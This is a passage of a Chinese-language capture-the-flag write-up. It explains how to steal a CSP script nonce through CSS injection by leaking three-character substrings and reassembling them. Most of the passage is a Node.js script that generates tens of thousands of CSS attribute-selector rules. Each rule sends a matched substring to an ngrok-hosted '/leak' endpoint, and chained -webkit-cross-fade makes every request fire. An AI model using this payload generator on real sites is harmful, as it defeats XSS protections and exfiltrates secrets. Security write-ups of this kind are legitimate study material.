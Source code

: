 ``` css
  )
```

用 `-webkit-cross-fade` 是為了要載入多個圖片，細節可以參考上面貼的文章。

例如說 nonce 是 abc123 好了，server 就會收到：

1. abc
2. bc1
3. c12
4. 123

這四種字串，而順序可能會不一樣，但只要按照規則組合起來，就可以得到 abc123。當然，也有可能會有多種組合或是不確定頭尾的情形，但那就當作 edge case，重新再試一次就行了。

用這樣的方式偷 nocne，以這題來說會有 36^3 = 46656 個規則，是可以接受的長度。

### 產生 CSS

剛好之前在工作上也碰到類似的情境，所以手邊已經有寫好的腳本了，改一下就可以用。

這題如果把全部規則都套在同一個元素上，似乎會因為規則太多之類的讓 Chrome 直接 crash（至少我本地是這樣），所以我就把規則分三份，順便套在三個不同元素。

``` js
const fs = require('fs')
let chars = 'abcdefghijklmnopqrstuvwxyz0123456789'
const host = 'https://ip.ngrok-free.app'

let arr = []
for(let a of chars) {
    for(let b of chars) {
        for(let c of chars) {
            let str = a+b+c;
            arr.push(str)
        }
    }
}

let payload1 = ''
let crossPayload1 = 'url("/")'
let payload2 = ''
let crossPayload2 = 'url("/")'
let payload3 = ''
let crossPayload3 = 'url("/")'

const third = Math.floor(arr.length / 3);
const arr1 = arr.slice(0, third); 
const arr2 = arr.slice(third, 2 * third); 
const arr3 = arr.slice(2 * third); 

for(let str of arr1) {
    payload1 += `script[nonce*="${str}"]{--${str}:url("${host}/leak?q=${str}")}\n`
    crossPayload1 = `-webkit-cross-fade(${crossPayload1}, var(--${str}, none), 50%)`
}

for(let str of arr2) {
    payload2 += `script[nonce*="${str}"]{--${str}:url("${host}/leak?q=${str}")}\n`
    crossPayload2 = `-webkit-cross-fade(${crossPayload2}, var(--${str}, none), 50%)`
}

for(let str of arr3) {
    payload3 += `script[nonce*="${str}"]{--${str}:url("${host}/leak?q=${str}")}\n`
    crossPayload3 = `-webkit-cross-fade(${crossPayload3}, var(--${str}, none), 50%)`
}

payload1 = `${payload1} script{display:block;} script{background-image: ${crossPayload1}}`
payload2 = `${payload2}script:after{content:'a';display:block;background-image:${crossPayload2} }`
```